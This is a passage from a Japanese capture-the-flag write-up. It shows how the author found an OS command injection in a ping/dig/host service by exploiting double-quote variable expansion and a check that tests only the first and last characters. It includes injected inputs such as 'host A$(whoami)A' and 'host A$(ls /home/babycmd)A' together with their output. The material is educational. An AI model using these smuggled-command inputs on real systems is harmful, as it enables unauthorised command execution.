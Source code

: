 
digとhostに文字列を渡した時の括りがそれぞれ違うことに注目しました。digではシングルクオートで、hostではダブルクオートでくくって引数を渡しています。
シェル上では、ダブルクオートの文字列の中で変数を展開できます。`echo "$SHELL"`とすると*/bin/bash*と出力されるのがいい例です。今回の問題の場合は、`host $SHELL`として標準入力から渡すと、`host "/bin/bash"`として実行されると考えられます。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
:
```
しかしながら、試しに`host $PWD`として打ってみたところ、引数チェックで引っかかり、*popen*で実行されませんでした。

逆コンパイルの結果、引数チェックでは最初と最後の文字が数字もしくはアルファベットでない場合にエラーとして実行させないようにしていることがわかったので、`host A${PWD}A`として実行してみました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
: host A${PWD}A
Host A/A not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

変数展開されていることが確認できました。/ディレクトリがカレントディレクトリのようです。

### 攻撃手法：OSコマンド インジェクション
これができることがわかると、次に挑戦したくなるのは変数中のコマンド展開によるOSコマンド インジェクションです。
コマンド展開とは、ダブルクオート中に変数を展開するのと同じ要領で、*$(コマンド)*としてコマンドを実行し、文字列中にコマンドの出力を展開するものです。例として、`echo "$(uname)"`とすると*Linux*と返ってきます。これを用いて実行中のユーザーを確認します。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(whoami)A
Host AbabycmdA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

babycmdユーザーとして実行されていることがわかりました。
そこで、ホームディレクトリ内のファイル一覧を取得してみることにしました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(ls /home/babycmd)A
sh: 1: ls/home/babycmd: not found
Host AA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```
